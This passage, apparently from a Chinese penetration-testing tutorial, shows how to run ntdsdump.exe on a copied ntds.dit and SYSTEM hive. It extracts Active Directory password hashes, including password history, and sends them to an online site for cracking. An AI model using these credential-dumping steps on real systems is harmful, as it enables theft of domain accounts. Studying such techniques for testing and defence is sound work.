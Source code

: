之后可以使用 ntdsdump 进行离线提取 Hash:

ntdsdump.exe -f ntds.dit -s SYSTEM

# [参数说明：](#toc__1)

ntdsdump.exe <-f ntds.dit> <-k HEX-SYS-KEY | -s system.hiv> \[-o out.txt\] \[-h\] \[-t JOHN|LC\] \* -f ntds.dit 路径 \* -k 可选的十六进制格式的 SYSKEY \* -s 可选的 system.hiv 路径 \* -h 导出历史密码记录 \* -t 导出格式，LC 或 JOHN \* -o 导出到指定文件中 \*  
[![image.png](assets/1698894155-518840b77b481cc2da8a539594941ba7.png)](https://storage.tttang.com/media/attachment/2022/09/30/900d1192-49d5-4d09-ba40-f7998a7f88aa.png)

之后在 CMd5 解密网站进行解密解密即可：[https://www.cmd5.org/](https://www.cmd5.org/)

[![image.png](assets/1698894155-ac2b690e289c9ecb68271bd1c09a82bb.png)](https://storage.tttang.com/media/attachment/2022/09/30/af0f3da4-5987-4816-bd60-796b85826d38.png)
